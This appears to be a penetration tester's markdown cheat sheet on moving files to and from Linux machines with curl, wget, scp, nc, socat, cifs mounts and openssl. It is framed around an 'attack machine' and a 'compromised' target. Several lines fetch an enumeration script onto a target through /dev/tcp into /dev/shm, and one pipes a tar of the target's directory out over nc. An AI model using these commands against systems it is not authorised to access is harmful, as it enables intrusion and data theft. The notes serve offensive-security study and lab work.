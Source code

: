 # Linux File Transfers


## Utilities

```bash
curl http://$IP/$file -o $file
wget http://$IP/$file
```

`scp` from [[SSH-Cheatsheet]]
```bash
# Copy a local file to remote host 
scp <file> <user>@<host>:<dest>

# dump user directory with wildcard *
scp -i id_rsa user@10.10.10.10:* . 

# To copy a file from a remote server to your local machine:
scp -P $portnumber <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```

## Bash Redirection

Check `mount` if /`dev/shm/` has `no exec`, this is just an example
```bash
# Use nc to serve the file
nc -lvnp 80 < LinEnum.sh
# Target machine
mount | grep shm
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## `ncat` | `nc`

Target machine
```bash
tar cf - . | nc $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## `socat`

Use [[Socat]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```


## SMB Cif-Utils

```shell
sudo mount -t cifs -o 'user=$username,password=$password' //$IP/share /mnt/sharename
```

[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)

## `openssl`

[GTFOBINS upload and download](https://gtfobins.github.io/#+file%20upload%20+file%20download)
```bash
# Create Certificate in our attack machine
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
# Stand up the Server in our attack machine
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
# Download File from the Compromised Machine
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## References

[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)
[Kali Cif-Utils](https://www.kali.org/tools/cifs-utils/)
[csbygb.gitbook.io/pentips File Transfers](https://csbygb.gitbook.io/pentips/post-exploitation/file-transfers) 